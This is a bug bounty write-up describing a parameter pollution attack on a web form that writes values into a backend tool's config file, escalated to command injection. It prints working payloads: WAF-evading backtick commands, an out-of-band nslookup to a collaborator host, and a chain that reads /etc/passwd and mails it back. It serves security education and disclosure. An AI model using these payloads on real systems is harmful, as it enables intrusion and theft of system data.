```yaml
---                                                                                                                                                                                                                                   
layout: default
title:  "Backend Parameter Injection --> RCE"
date:   2023-03-14 11:02:21 0100
author: Sysdum
---  
```

## Background

After performing my recon on a private program, I came across a pretty standard web form that accepted numerical values, performed some unknown calculations, and then emailed the results back to the user.

This behavior piqued my interest as this was on a more obscure subdomain, it accepted a lot of variables, and probably passed input to something that wasn't designed for the web. 


Using Burp Suite's Repeater, I submitted the form a few times. It took me a minute to successfully submit the form as there were many client-side checks to ensure the numbers were within the acceptable range for the back-end application. 

After brute-forcing the form because I'm bad at math, I finally got an email with output that looked like it might have originated from a command line tool. I get excited any time I see back-end command line functionality reflected anywhere in a web app. Chances are decent that there may be a command injection vulnerability if we can figure out how to smuggle a command to the back-end service.

![Email-Output](/assets/param-rce-email-output.jpg)

Any time I find an interesting application, I first check if it is open-source so that I can see how it works. I googled the variable names within the response and found a repository (let's call it CalcTool) on GitHub. After looking over the readme, I learned CalcTool reads a configuration file and generates output very similar to the email I received.

This raised several questions. Is this application passing data directly to CalcTool's configuration file? If so, can I exploit its behavior somehow?

## CalcTool Code Review

I looked over the sample configuration file on GitHub and found that the form values lined up exactly with the variables on the web form. This confirmed my suspicion that the web app was passing input to CalcTool. 

My next goal was to determine if there was any dangerous functionality within CalcTool that I could hit from the web application. I decided to search for function calls that could execute a command such as exec, execv, and system. These calls are usually vulnerable to command injection if the attacker can pass improperly sanitized input to these functions.

After some time, I found exactly one system() call. It was in an email function that dynamically constructed the arguments from the CalcTool configuration file:

```plaintext
margs = "-s CalcTool Output: '" + jobtitle + "' " + email + " < LOGFILE"
System ("mail" + text)
```

The end result of these string operations is the following command:

```plaintext
mail -s 'CalcTool Output: job173' email@example.com < /path/to/LOGFILE
```

Unfortunately, I only had access to the email variable and the web application used a decent regular expression to filter out any useful special characters e.g. ( ` $ )

At this stage I knew the following:

*   The web application passes the web form values in a one-to-one fashion to CalcTool's config file.
*   There is only one form value that I control that is passed to a system() call within CalcTool, which is my best chance at exploitation.

The goal was to find a way to pass input that I controlled directly to that system call

## Polluting the Configuration

Bypassing filters can be tricky. In web application testing, one common filter bypass technique is parameter pollution.

PortSwigger defines parameter pollution as:

```plaintext
HTTP Parameter Pollution tests the applications response to receiving multiple HTTP parameters with the same name; for example, if the parameter username is included in the GET or POST parameters twice.

Supplying multiple HTTP parameters with the same name may cause an application to interpret values in unanticipated ways. By exploiting these effects, an attacker may be able to bypass input validation, trigger application errors or modify internal variables values. 
```

Now, I knew the web application accepts values as multi-part form data, which is not typically vulnerable to HTTP parameter pollution. However, I noticed that CalcTool's configuration variables and the values from the form lined up almost perfectly. 

If the web application was writing these values to a CalcTool configuration file, then what would happen if a variable were defined more than once?

Here is an example of what a configuration file looked like from the README:

```plaintext
Title "job title"
Email "email@example.com"
LOGFILE "log.txt"
Parameter_a 10
Parameter_b 1.4
```

It is a simple text file with a parameter followed by a "value" on each line.

I decided to apply the concept of HTTP parameter pollution to the configuration file. Thus I tried to pollute the job title variable using one of the numeric form values. To do this I added a new line character after the numeric value and inserted a TITLE variable just below it. 

If I could set the title to the word "polluted", then the subject of my email should read "CalcTool Output: Polluted" instead of the normal "JobOutput\_1948333".

After pollution, the form value looked something like this:

```plaintext
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title "polluted"
-------------------------384837281
```

10 is the original value of the frequency form value, and I added a new line with the polluted title variable.

After adding the new line and Title variable in Burp's repeater, I sent a request that would result in the config file below:

```plaintext
Title "jobid12"
...
Range 300
Frequency 10
Title "polluted"
```

For this to work, the application would need to keep **only** the **last** declaration of the title variable instead of keeping the first declaration. I then used BurpSuite's intercept feature to catch the form and add the polluted variable on a new line. I received the following email:

![Polluted Job](/assets/param-rce-job-polluted.jpg)

This output means that the pollution worked!

## Command Execution
The next step was to prove a command injection vulnerability. Due to the mail command not retuning its output directly to me, this is a blind command injection. Therefore, I needed an out-of-band (OOB) method of exfiltrating data. I tried the following payload using Burp Collaborator:

```plaintext
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title "$(nslookup mycollaborator.com)"
-------------------------384837281
```

After sending the request and editing it with Burp, this time I was met with a 403 forbidden status from the web server. After trying a couple of other common payloads, I discovered that the application was behind a Web Application Firewall (WAF). 

It was configured to block most Linux commands and would not allow $() or {} at all.

However, backticks were allowed, which can be used for command substitution on Unix systems. So I tried the following variant:

```plaintext
...
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title `a=nslo;b=okup;$a$b mycollaborator.com`
...
```

This payload does the following:

*   Declares a variable and sets it to be the value “nslo”
*   Declares a variable b and sets it to be the value “okup”
*   Runs the command $a$b which combines a and b to form the nslookup command. Then I simply passed it mycollaborator.com (a placeholder for the actual collaborator URL) in order to get my lookup.

After checking my collaborator client, I saw a new lookup from my target's IP address. This means my blind command injection worked. However, I needed to exfiltrate data in order to prove remote code execution. To accomplish this, I needed to pollute one more variable: LOGFILE. This is where CalcTool reads input from in order to email the results to the user. 

```plaintext
...
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title `a=ca;b=t;$a$b /e*c/pa*s*d > /tmp/synack77`
LOGFILE /tmp/synack77 
...
```

### Here is a breakdown of the final exploit chain:

*   CalcTool's configuration file allows for the definition of a log file.
*   The email function I showed earlier reads this log into the body of the email in order to send the results back to the user.
*   I needed to pollute the title parameter with a payload to write command results to a file.
*   Then I required a way to send the results back to me, so I polluted the logfile parameter to the command result file.
*   The results of the calculations would be overwritten by my command, and then the mail command would email me the results of my command

![Final Payload](/assets/param-rce-final-payload.png)

Here is how the payload looks when it is ran by CalcTool:
```plaintext
mail -s "CalcTool Output: `a=ca;b=t;$a$b /e*c/pa*s*d > /tmp/synack77`" email@gmail.com < /tmp/synack77
```

The command within the back ticks is executed before the mail command is run. Therefore, the output of our command will be stored in /tmp/synack77 before the mail command runs and we get an email with the results of our command. In this case we are reading /etc/passwd. 

Finally, I received an email results of the cat /etc/passwd command:
![Payload Contents](/assets/param-rce-email-output-passwd.jpg)


Thanks for reading!
